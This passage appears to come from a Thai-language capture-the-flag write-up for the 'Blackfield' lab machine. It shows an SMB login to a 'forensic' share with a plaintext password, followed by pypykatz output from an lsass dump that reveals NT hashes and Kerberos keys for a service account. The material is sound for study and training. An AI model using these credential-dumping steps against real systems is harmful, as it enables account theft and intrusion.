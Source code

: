 ![](./IMG/006.png)

จากนั้นทดสอบเข้าไปยัง forensic ด้วย user: audit2020
```bash
smbclient  -N //10.10.10.192/forensic -U audit2020@blackfield.local --password=P@ssw0rd@@@
```

ภายใต้ folder memory_analysis มีข้อมูลของ lsass อยู่ให้ทำการแตกไฟล์ zip แล้วเปิดด้วย mimikatz บน linux ด้วย pypykatz 

```bash
pipx install pypykatz
pypykatz lsa minidump lsass.DMP


INFO:pypykatz:Parsing file lsass.DMP
FILE: ======== lsass.DMP =======
== LogonSession ==
authentication_id 406458 (633ba)
session_id 2
username svc_backup
domainname BLACKFIELD
logon_server DC01
logon_time 2020-02-23T18:00:03.423728+00:00
sid S-1-5-21-4194615774-2175524697-3563712290-1413
luid 406458
        == MSV ==
                Username: svc_backup
                Domain: BLACKFIELD
                LM: NA
                NT: 9658d1d1dcd9250115e2205d9f48400d
                SHA1: 463c13a9a31fc3252c68ba0a44f0221626a33e5c
                DPAPI: a03cd8e9d30171f3cfe8caad92fef62100000000
        == WDIGEST [633ba]==
                username svc_backup
                domainname BLACKFIELD
                password None
                password (hex)
        == Kerberos ==
                Username: svc_backup
                Domain: BLACKFIELD.LOCAL
                AES128 Key: 9658d1d1dcd9250115e2205d9f48400d
                AES256 Key: 20a3e879a3a0ca4f51db1e63514a27ac18eef553d8f30c29805c398c97599e91
        == WDIGEST [633ba]==
                username svc_backup
                domainname BLACKFIELD
                password None
                password (hex)

```
